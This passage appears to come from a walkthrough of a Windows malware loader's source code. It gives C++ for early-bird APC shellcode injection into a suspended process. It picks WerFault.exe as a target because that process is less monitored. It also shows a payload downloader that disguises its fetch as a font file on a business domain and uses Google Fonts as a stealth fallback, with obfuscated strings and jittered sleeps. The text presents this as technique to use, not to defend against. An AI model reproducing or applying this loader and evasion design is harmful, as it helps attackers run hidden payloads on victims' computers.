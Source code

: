 ```cpp
        }

        QueueUserAPC((PAPCFUNC)pRemoteMemory, pi.hThread, 0);
        
        ResumeThread(pi.hThread);
        return true;
    }
```

The technique works by creating a process in a suspended state using CreateProcessW with the CREATE_SUSPENDED flag. This creates the process but doesn't start the main thread, giving us time to inject our code. We then use VirtualAllocEx to allocate memory in the target process with execute permissions and WriteProcessMemory to write our shellcode to that allocated memory.

The key is QueueUserAPC, which adds our shellcode to the thread's APC queue. When we call ResumeThread to start the process, Windows checks if the thread has any queued APCs and executes them before starting the thread's main function. This means our shellcode executes before the legitimate process code, giving us control from the very beginning of the process lifecycle.

WerFault.exe (Windows Error Reporting) is an ideal injection target because it's a legitimate system process that runs regularly, has network access for sending error reports to Microsoft, and is less likely to be monitored than other system processes.

### The Download System Deep Dive

The loader implements a sophisticated multi-tier download system with realistic HTTP behavior:

```cpp
    // Enhanced HTTPS download with full fallback system
    bool DownloadPayload() {
        LOG("Initiating payload download with 2-tier fallback system");
        
        // Primary URL (your original payload server)
        std::string primaryHost = OBFSTR("dl.example-business.com");
        std::string primaryPath = OBFSTR("/assets/fonts/manrope-light.ttf");
        
        // Fallback URL (Google Fonts for stealth)
        std::string fallbackHost = OBFSTR("fonts.googleapis.com");
        std::string fallbackPath = OBFSTR("/css2?family=Open+Sans:wght@300;400;600;700&display=swap");
        
        // Try primary URL first
        LOG("Attempting download from primary server...");
        if (AttemptDownload(primaryHost, primaryPath)) {
            LOG("Primary download successful");
            return true;
        }
        
        LOG("Primary download failed, trying fallback server...");
        JitteredSleep(2000, 4000);
        
        // Try fallback URL
        if (AttemptDownload(fallbackHost, fallbackPath)) {
            LOG("Fallback download successful");
            return true;
        }
        
        LOG("All download attempts failed");
        return false;
    }
```
